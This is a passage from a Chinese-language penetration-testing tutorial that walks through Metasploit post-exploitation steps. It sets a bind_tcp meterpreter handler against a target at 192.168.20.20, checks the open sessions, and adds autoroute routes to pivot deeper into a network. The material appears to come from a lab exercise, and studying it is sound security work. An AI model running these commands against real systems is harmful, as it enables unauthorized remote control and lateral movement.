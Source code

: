 这里我们设置正向监听。

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.20.20    ##目标地址
set lport 2222
run
```

![image-20230518144429360](assets/lJzvAqFPfbmSpcM.png)

### 3.2.4. 查看后台会话

这里时候可以看到我们有两个会话了。

![image-20230518144502172](assets/ikJUn1NFCARaOBg.png)

### 3.2.5. 建立路由

这里和上面一样，我们可以先查看一下我们现有的路由，会发现还是之前的，所以我们要再次添加路由。

```
run autoroute -p
run post/multi/manage/autoroute
```
